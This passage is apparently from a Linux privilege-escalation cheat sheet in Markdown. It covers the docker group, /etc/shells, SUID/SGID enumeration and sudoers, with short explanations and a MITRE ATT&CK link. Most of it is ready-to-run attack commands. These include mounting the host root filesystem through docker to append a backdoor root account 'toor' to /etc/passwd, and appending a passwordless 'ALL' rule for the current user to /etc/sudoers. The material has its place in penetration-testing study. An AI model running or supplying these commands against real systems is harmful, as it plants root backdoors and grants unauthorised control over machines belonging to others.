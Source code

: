 ```bash
#[System]:~# cd /mnt/root #Here is where the filesystem is mounted
```

##### Docker group

###### Mount technique

```bash
# Mount the file
docker run -it --rm -v /:/mnt bash
# Add a backdoor account toor:password.
echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd
```

#### Sudo --shell

The **/etc/shells** is a Linux / UNIX text file which contains the full pathnames of valid login shells.

```bash
su -h # Check if we can run another shell if /etc/shells allows it
cat /etc/shells
```

#### SUID & SGID

```bash
curl https://github.com/GTFOBins/GTFOBins.github.io/tree/master/_gtfobins 2>/dev/null | grep 'href="/GTFOBins/' | grep '.md">' | awk -F 'title="' '{print $2}' | cut -d '"' -f1 | cut -d "." -f1 | sed  -e 's,^,|,' | tr '\n' ' ' | tr -d "[:blank:]" #  GTFOBins.txt
```

```bash
find / -perm -u=s -type f -print 2>/dev/null # Search for program with the SUID
find / -perm -g=s -type f -print 2>/dev/null # Search for program with the SGID
```

For more information about that technique refer to [T1548.001 - Abuse Elevation Control Mechanism: Setuid and Setgid](https://attack.mitre.org/techniques/T1548/001/)

###### *If you don't know, now you know: [SUID](https://linux.die.net/man/2/setuid) & [SGID](https://linux.die.net/man/3/setgid)*

- **SUID** (**S**et owner **U**ser **ID** up on execution) is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs.
- **SGID** (**S**et owner **G**roup **ID** up on execution) same as SUID for groups.

#### Sudoers

The file /etc/sudoers and the files inside /etc/sudoers.d configure who can use sudo and how.

```bash
sudo -l # Check if they are scripts than once launch, they are run as root
echo "$(whoami) ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers
```
